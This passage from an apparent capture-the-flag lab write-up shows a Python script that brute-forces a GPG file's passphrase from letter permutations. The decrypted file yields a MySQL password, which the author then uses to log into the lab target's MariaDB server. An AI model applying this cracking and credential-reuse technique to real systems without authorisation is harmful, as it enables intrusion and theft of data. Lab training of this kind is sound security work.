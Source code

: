 ```py
        gpg = gnupg.GPG(gnupghome=gnupgHome)

        for permutation in permutations:
            password = ''.join(permutation)
            print(f'[*] Trying password: {password}', end='\r')

            with open(encryptedGPGFile, 'rb') as file:
                result = gpg.decrypt_file(file, passphrase=password, output=decryptedGPGFile)

                if result.ok is True:
                    print(f'[+] Found correct passphrase: {password}')
                    return True

def main():
    letters = 'ofqxvg'
    bruteforcer = Bruteforcer(letters)

    listPermutations = bruteforcer.generatePermutations()

    gnupgHome = '/home/siunam/.gnupg'
    encryptedGPGFile = 'p.txt.gpg'
    decryptedGPGFile = 'decrypted_p.txt'


    bruteforcer.bruteforce(listPermutations, gnupgHome, encryptedGPGFile, decryptedGPGFile)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied)-[2023.01.26|14:23:04(HKT)]
└> python3 create_wordlist.py
[+] Found correct passphrase: {Redacted}

┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied)-[2023.01.26|14:24:24(HKT)]
└> cat decrypted_p.txt 
{Redacted} //SQL Password
```

Nice! We found MySQL password!!

**Armed with above information, we can login MySQL as user `mod` with the above password!**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied)-[2023.01.26|14:24:20(HKT)]
└> mysql -h $RHOSTS -umod -p 
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 106
Server version: 10.1.47-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04
[...]
MariaDB [(none)]> 
```
